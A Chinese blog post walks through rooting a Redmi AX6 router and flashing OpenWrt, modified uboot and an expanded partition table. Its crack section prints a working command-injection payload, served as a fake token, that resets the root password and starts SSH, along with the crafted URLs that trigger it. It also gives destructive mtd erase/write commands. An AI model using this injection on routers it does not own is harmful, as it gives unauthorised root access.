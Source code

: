 # 前情提要

前段时间刷机，因为[官方文档](https://openwrt.org/inbox/toh/xiaomi/xiaomi_redmi_ax6_ax3000)的问题，我把路由刷成砖了。

然后尝试了 ttl 救砖，一开始能进 uboot ，后来因为刷错了，导致 uboot 也挂了。


![image.png](./img/2023/DQmNqbFU8CEbnwGosn5FeJMWukCG7ASeZh822CXxDJwyVhk.png)

最后买了热风枪和编程器，拆焊后，用编程器刷固件。

![image.png](./img/2023/DQmTxfB1u8BEjBmCJfbTRh4gnUewRLUKRYEyGdaWAti9xwb.png)

固件倒是刷成功了，但是焊回去后，路由无法开机，看上去焊接的没有问题，估计是热风枪把路由器主板搞的太热，把某个元器件搞坏了吧，毕竟是我第一次用热风枪。

![image.png](./img/2023/DQme1AR7WPKcMk1gaDEpzWhSTr1ojMEN29BcDV82yyN3eR1.png)

于是从闲鱼二手买了一个同款路由器，重新刷机。之所以买同款，是因为这台路由器整体的硬件配置和价格真的是超高性价比啊。

这次吸取了之前刷机时对于官方文档中不确定的命令参数不懂硬上的教训，所以记录一下整个刷机过程。

大概过程是：
* 破解获取SSH权限
* 刷入临时 Openwrt 固件到 mtd12，设置下次引导到 mtd12，重启
* 刷入扩容后的分区表到 mtd1，刷入魔改后的不死 uboot 到 mtd7
* **断电**
* 按住 reset 键，上电，电脑网线连接 LAN 口，手动配置路由 IP 为 192.168.1.4/24
* 访问 uboot 的 web 界面，192.168.1.1，刷入最终的 Openwrt 固件

所有涉及到的固件都在这里： [https://pan.baidu.com/s/1341uqxZab8om_YL9UEJpAA?pwd=2333](https://pan.baidu.com/s/1341uqxZab8om_YL9UEJpAA?pwd=2333)

# 破解

小米在旧的固件上不知道是故意留的后门，还是真有漏洞。第一步就是通过路由器管理界面的升级功能，降级固件到 1.0.16。

之后需要准备一台 OpenWRT，我这里正好有个闲置的刚好拿来用。

![image.png](./img/2023/DQmU9EJ2TisQ97wcJFouFJxfY5izG4YkvUR6iA8hMEJQmmK.png)

把这台 OpenWRT 的 LAN 口 IP 设置为 `169.254.31.1`，然后关闭 DHCP。

之后把 PC 端修改为 `169.254.31.22/24`（这里官方文档是错误的）。

完成生效后，登陆这台路由器的 SSH，创建文件 `/usr/lib/lua/luci/controller/admin/xqsystem.lua`，内容为：

```
module("luci.controller.admin.xqsystem", package.seeall)

function index()
    local page   = node("api")
    page.target  = firstchild()
    page.title   = ("")
    page.order   = 100
    page.index = true
    page   = node("api","xqsystem")
    page.target  = firstchild()
    page.title   = ("")
    page.order   = 100
    page.index = true
    entry({"api", "xqsystem", "token"}, call("getToken"), (""), 103, 0x08)
end

local LuciHttp = require("luci.http")

function getToken()
    local result = {}
    result["code"] = 0
    result["token"] = "; echo -e 'admin\nadmin' | passwd root; nvram set ssh_en=1; nvram commit; sed -i 's/channel=.*/channel=\"debug\"/g' /etc/init.d/dropbear; /etc/init.d/dropbear start;"
    LuciHttp.write_json(result)
end
```

保存后，这时你用电脑访问 `http://169.254.31.1/cgi-bin/luci/api/xqsystem/token` 就能看到上面脚本文件中 `result` 变量的输出内容了，这个就是一会需要注入到 Redmi AX6 路由的代码。

可以看到我们注入的代码做了这么两个工作：

* 修改 root 用户密码为 admin
* 启动 ssh 服务

准备工作完毕，下面正式开始破解。

PC 清空之前的 IP 设置，改为自动获取，使用网线连接 Redmi AX6（之所以用网线，是因为破解使用的是路由无线中继中的漏洞，如果用 wifi 连接，在破解过程中会脱离与路由器的连接）。

登陆 Redmi AX6 网页界面后，可以看到 URL 中有一个 `stok` 的值，我们复制出来备用（这里假设是 `aaabbb`）。

假设我们之前准备的 OpenWRT 路由的 WiFi 名是 `ety001op`，密码是 `12345678`。

构造下面两条URL，然后浏览器依次访问

```
http://192.168.31.1/cgi-bin/luci/;stok=aaabbb/api/misystem/extendwifi_connect?ssid=ety001op&password=12345678
替换 stok, ssid, password 为你自己的

http://192.168.31.1/cgi-bin/luci/;stok=aaabbb/api/xqsystem/oneclick_get_remote_token?username=xxx&password=xxx&nonce=xxx
替换 stok 为你自己的
```

第一个 URL 是让 Redmi 去连接我们准备的路由器，第二个 URL 就是让 Redmi 获取要注入的代码。

下面我们 `ssh root@192.168.31.1` 就能连接到 Redmi 的终端界面了，密码是 `admin`。

至此破解结束。

# 刷入临时 OpenWRT

进入 Redmi 的终端后，如果你想备份下，可以执行下面的命令备份相关的分区

```
dd if=/dev/mtd1 of=/tmp/mtd1.bin
```

具体的分区情况，可以通过这条命令查看

```
cat /proc/mtd
```

一般备份下 ART 分区，uboot 分区。

因为 Redmi AX6 是双系统，mtd12 一个系统，mtd13 一个系统。

我们要合并的是 mtd12, mtd13, mtd14(overlay分区)，因此我们需要先确认下我们目前是启动的哪个分区的系统（一般情况下出厂都是 mtd13 分区的系统）。

```
nvram get flag_boot_rootfs
```

这是对照表

```
mtd12  "rootfs"    0
mtd13  "rootfs_1"  1
```

如果你看到你输出结果是 0，那么你现在用的是 mtd12 的系统，你需要先切换到 mtd13 系统去

```
nvram set flag_last_success=1
nvram set flag_boot_rootfs=1
nvram commit
reboot
```

> 我们必须确保自己是在 mtd13 分区的系统中

下面刷入临时系统（固件xiaomimtd12.bin）到  mtd12 分区，同时设置下次启动 mtd12 分区

```
mtd write /tmp/xiaomimtd12.bin rootfs
nvram set flag_last_success=0
nvram set flag_boot_rootfs=0
nvram commit
reboot
```

如果一切顺利，重启后，你 PC 的 IP 地址会获取到 `192.168.1.0/24` 段的，访问 `192.168.1.1` 可以顺利打开 OpenWRT 登陆界面。

# 扩容并刷入Uboot

我们重新登陆 SSH，`ssh root@192.168.1.1`，这个临时 OpenWRT 密码为空。

通过工具把 `ax6-uboot.bin` 和 `ax6-uboot-mibib.bin` 两个文件传入到路由器 `/tmp` 目录里。

扩容前打印下分区表，确认 mtd1 和 mtd7 存在

```
cat /proc/mtd
```

确认后，顺次执行下面的命令，擦除分区并写入

```
mtd erase /dev/mtd1
mtd write /tmp/ax6-uboot-mibib.bin /dev/mtd1
mtd erase /dev/mtd7
mtd write /tmp/ax6-uboot.bin /dev/mtd7
```

等待执行成功。

# 断电

分区修改后，记得一点要 **断电**。

分区修改后，记得一点要 **断电**。

分区修改后，记得一点要 **断电**。


# 刷入最终的系统

剩下的操作就简单了，只要能顺利进入 Uboot，以后刷机就简单了，也不用担心变砖了（理论上 factory 的固件都可以刷）。

进入 Uboot 的方法基本上都一样，就是在断电的情况下，按住 reset ，上电。

Redmi AX6 指示灯会先蓝灯闪烁，然后变黄灯，这时松开 reset ，电脑上手动配置 IP 为 `192.168.1.2/24`。

进入 Uboot 的 Web 界面 `192.168.1.1`，选择最终固件 `openwrt-ipq807x-generic-redmi_ax6-squashfs-nand-factory.ubi` ，刷入，重启，成功！
